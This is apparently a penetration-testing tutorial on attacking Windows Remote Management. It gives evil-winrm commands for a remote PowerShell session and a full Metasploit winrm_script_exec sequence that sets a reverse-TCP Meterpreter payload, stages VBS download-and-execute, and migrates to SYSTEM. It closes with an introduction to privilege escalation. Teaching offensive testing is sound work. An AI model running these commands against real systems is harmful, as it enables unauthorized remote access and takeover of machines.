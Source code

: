 ##### Running Evil-WinRM

Use `evil-winrm` if you used RubyGems install or `evil-winrm.rb` if you pulled from the Github repository. The following command would start an interactive PowerShell session on the target Windows machine to allow remote command execution:

```
evil-winrm.rb -u <username> -p "<password>" -i <target>
```
- `-u`= Username
- `-p` = Password
- `-i` = Target

**Example:** 

```
evil-winrm.rb -u administrator -p "pqaeoirgq" -i 10.52.6.4
```

### Exploitation of WinRM using Metasploit

We can use the winrm_script_exec exploit module (`exploit/windows/winrm/winrm_script_exec`) for exploiting WinRM, you would need to have valid credentials for this to work so enumeration/brute force would be necessary first.

By default the payload will be `windows/meterpreter/reverse_tcp` which is 32-bit and fine here. Need to set the target `RHOSTS` , set the `FORCE_VBS` for the VBS CmdStager to true and then set the `USERNAME`/`PASSWORD`.  The `RPORT` will already be set to 5985 by default.  A **VBS cmdstager** is a the tool will generate and execute commands written in VBScript on a Windows machine to download, write, and execute a payload in stages. This is often used in scenarios where direct execution of a large payload isn't feasible, so the payload is staged and executed via small script commands.

```
service postgresql start && msfconsole
use exploit/windows/winrm/winrm_script_exec
set RHOSTS 10.52.63.52
set FORCE_VBS true
set USERNAME administrator
set PASSWORD wifpoeij
exploit
```

Upon successful exploitation, After exploitation, the module will attempt to migrate the Meterpreter session to a system-level process (e.g., `services.exe`, `wininit.exe`, `svchost.exe`) for more stability and to obtain higher privileges, aiming to achieve a session as `NT AUTHORITY\SYSTEM`.

# Windows-Privilege-Escalation

### Privilege Escalation

Privilege escalation involves taking advantage of system vulnerabilities or misconfigurations to increase a user's access level, typically elevating from a standard user to one with administrative or root privileges. It is a crucial part of the attack lifecycle and directly impacts the success of penetration testing. Once an initial foothold is gained on a system, escalating privileges is necessary to perform tasks requiring administrative access such as data exfiltration or pivoting. 
